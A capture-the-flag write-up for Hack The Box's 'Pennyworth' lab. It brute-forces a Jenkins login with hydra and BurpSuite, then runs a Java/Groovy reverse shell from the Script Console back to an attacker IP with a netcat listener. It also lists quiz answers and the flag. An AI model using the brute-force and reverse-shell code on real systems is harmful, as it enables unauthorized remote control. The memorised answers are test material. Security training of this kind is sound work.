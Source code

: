 # Machine Name
Pennyworth is a very easy linux machine on Hack The Box Starting Point Tier 1 that focuses on password cracking and reverse shells.

## Task 1
**What does the acronym CVE stand for?**
> Common Vulnerabilities and Exposures

## Task 2
**What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?**
> confidentiality, integrity, availability

## Task 3
**What is the version of the service running on port 8080?**
> Jetty 9.4.39.v20210325

![Scanning Port 8080](port8080.png)

## Task 4
**What version of Jenkins is running on the target?**
> 2.289.1

First we use BurpSuite to intercept an HTTP Request when we try to login. First we go to the proxy tab in BurpSuite. We make sure `intercept off` and we go to the target website `http://{Target IP}:8080`. Then in BurpSuite we turn `intercept on` and try to login with the arbitrary credentials `user` and `pass`:

![Intercept](intercept1.png)

Next we go to BurpSuite and see our intercepted packet. We see that the intercepted packet was a HTTP POST Request to `/j_spring_security_check `. We notice that the request has a cookie and four query parameters `j_username`, `j_password`, `form`, and `Submit`. We also notice that the value of `j_username` and `j_password` are the credentials were submitted to the fom.

![Intercepted Packet](intercept2.png)

Next we use the `Forward` button in BurpSuite to send the intercepted packet to the target website. We don't have valid login credentials and see that BurpSuite intercepted a HTTP GET Request with the url endpoint `\loginError`:

![Login Failed](login_failed.png)

Next we download the [common username list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt) and save it as `usernames.txt`. We also download the [common password list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt) and save it as `passwords.txt`. We use hydra to brute force a username and password credential pair:

```bash
hydra -L {USERNAMES} -P {PASSWORDS} -F {TARGET IP} -s {TARGET PORT} http-post-form "{URL ENDPOINT}:{QUERY PARAMTERS}:C={COOKIE}:F={FAILURE STRING}"
```

For the `{USERNAMES}` and `{PASSWORDS}` flags, we give hydra the path to the common username and password lists we downloaded earlier: `usernames.txt` and `passwords.txt`. We also set target website: `-F {TARGET IP} -s 8080`. Next we specify that we want to make an `http-post-form` to brute force the login credentials. For our post request, we set the `{URL ENDPOINT}` to the one we got from BurpSuite: `/j_spring_security_check`. For the query parameters, we set `{j_username}` and `{j_password}` too `^USER^` and `^PASS^`. We reuse the same values for `{from}` and `{Submit}` as the HTTP Request we intercepted in BurpSuite. We set the `{COOKIE}` value to use the same cookie as the `/login` page. Lastly we set the `{FAILURE STRING}` to `loginError` since that's what the HTTP Response BurpSuite intercepted.

![Hydra Password Cracking](hydra.png)

Hydra finds that the credential pair `root` and `password` are valid. Lastly, logging in with this credential pair, we get the Jenkins administrative panel and see the version of Jenkins that is running.

![Logged In](loggedin.png)

## Task 5
**What type of script is accepted as input on the Jenkins Script Console?**
> Groovy

## Task 6
**What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?**
> cmd.exe

## Task 7
**What is a different command than "ip a" we could use to display our network interfaces' information on Linux?**
> ifconfig

![ifconfig](ifconfig.png)

## Task 8
**What switch should we use with netcat for it to use UDP transport mode?**
> -u

## Task 9
**What is the term used to describe making a target host initiate a connection back to the attacker host?**
> reverse shell

First we setup a listener on port `8000` our own computer using the `netcat` command:

```bash
nc -lvnp {TARGET IP} 8000
```

Since the Jenkins terminal accepts Java code, we can make a reverse shell in Java and run it on the script console. We click on the `Manage Jenkins` button on the left side panel. Then we scroll down to the tools and actions section and click on `Script Console`.

For our reverse shell, we make a process `p` that our main function can use to make exec calls. We start a bash shell by passing the command `/bin/bash` to our `ProcessBuilder()` function. 

```java
String cmd ="/bin/bash";
Process p = new ProcessBuilder(cmd).start();
```

Then we make a socket that allows us to connect to our own computer:
```java
String host = "10.10.15.124";
int port = 8000;
Socket s = new Socket(host,port);
```

Next we need to redirect the input and output streams. The `po` variable allows the java main function to send commands to the process `p`. The `si` variable allows the java main function to read the commands that we send on our computer via netcat. The `pi` variable allows the java main function to read the output of the process `p`. The `so` variable allows the java main function to send our computer the output:

```java
InputStream pi = p.getInputStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so=s.getOutputStream();
```

Next we need to make a `while` loop allowing our script to run continuously. Then we see if there is user input `si`. If there is user input, we send this user input to our process `po` to be executed. Next we see if there's output from our process `pi`, we send this output to our computer `so`.

```bash
while (!s.isClosed()) {

	try {
		
		if (si.available() > 0) {
		
			po.write(si.read());

		}

		if (pi.available() > 0) {
		
			so.write(pi.read()); 
		
		}

		so.flush();
		po.flush();
		Thread.sleep(50);

	} catch (IOException i) {

		break;

	}

}
```

After we use the `Script Console` to run our reverse shell java code, we can go to our netcat listener and interact with the shell:

![Reverse Shell](reverse_shell.png)

## Flag
> 9cdfb439c7876e703e307864c9167a15

Lastly we search for the flag file and then display its contents:

![Flag](flag.png)